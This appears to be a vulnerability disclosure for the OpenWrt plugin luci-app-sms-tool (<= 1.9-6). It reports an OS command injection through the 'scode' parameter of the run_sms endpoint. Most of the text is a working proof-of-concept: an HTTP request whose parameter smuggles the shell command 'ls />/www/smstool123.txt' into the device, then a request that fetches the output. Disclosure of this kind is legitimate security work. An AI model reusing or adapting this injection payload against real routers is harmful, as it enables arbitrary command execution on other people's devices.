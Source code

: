 ## Sms-tool OpenWrt plugin "luci-app-sms-tool" has a command injection vulnerability

Affected product:  *luci-app-sms-tool* <= 1.9-6

### Product Information

project: https://github.com/4IceG/luci-app-sms-tool

Location of the vulnerability: https://github.com/4IceG/luci-app-sms-tool/blob/master/luci-app-sms-tool/luasrc/controller/modem/sms.lua

### Vulnerability Description

When deal with `run_sms` request,`scode` parameter is vulnerable to OS command injection.

![8](img/8.png)

### Verify

payload:

```http
GET /cgi-bin/luci/admin/modem/sms/run_sms?scode=12345678901234567890';%20ls%20%2F%3E%2Fwww%2Fsmstool123.txt%20#' HTTP/1.1
Host: 192.168.187.101
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth_https=eb2cb32a138221c5bf88eb40ad64e37b
```

inject the command "`ls />/www/smstool123.txt`"

![9](img/9.png)

check the result

```http
GET /smstool123.txt HTTP/1.1
Host: 192.168.187.101
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth_https=484d927d43dc6f3b20ca54148260c48d
```

![10](img/10.png)
